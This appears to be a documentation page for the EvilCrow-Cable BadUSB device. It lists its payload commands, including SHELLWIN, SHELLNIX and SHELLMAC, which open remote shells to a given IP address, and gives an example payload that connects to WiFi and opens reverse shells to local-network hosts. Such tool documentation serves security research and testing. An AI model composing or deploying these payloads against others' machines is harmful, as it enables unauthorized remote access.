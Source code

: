 The EvilCrow-Cable device supports advanced BadUSB operations with WiFi capabilities. These specialty commands are unique to the EvilCrow-Cable and provide enhanced functionality for cybersecurity research and education.

### Available Specialty Commands

#### **RELEASE** - Release All Keys
```bash
RELEASE
```
Releases all currently pressed keys. Useful for cleaning up key states after complex operations.

#### **WIFI_SEND** - Send Data Over WiFi
```bash
WIFI_SEND Hello WiFi World!
```
Sends data over the WiFi serial connection. Requires WiFi module setup.

#### **WIFI_CONNECT** - Connect to WiFi Network
```bash
WIFI_CONNECT MyNetwork MyPassword
```
Connects to a WiFi network using the specified SSID and password.

#### **SHELLWIN** - Windows Remote Shell
```bash
SHELLWIN 192.168.1.100
```
Triggers a Windows remote shell connection to the specified IP address.

#### **SHELLNIX** - Linux Remote Shell
```bash
SHELLNIX 192.168.1.101
```
Triggers a Linux remote shell connection to the specified IP address.

#### **SHELLMAC** - macOS Remote Shell
```bash
SHELLMAC 192.168.1.102
```
Triggers a macOS remote shell connection to the specified IP address.

### Example EvilCrow-Cable Payload

```bash
# EvilCrow-Cable Advanced Payload Example
ATTACKMODE HID WIFI
DELAY 2000

# Basic HID operations
STRING Hello from EvilCrow-Cable!
ENTER
DELAY 1000

# WiFi operations
WIFI_SEND Status: Device connected
DELAY 500
WIFI_CONNECT MyNetwork MyPassword
DELAY 2000

# Remote shell operations
SHELLWIN 192.168.1.100
DELAY 1000
SHELLNIX 192.168.1.101
DELAY 1000

```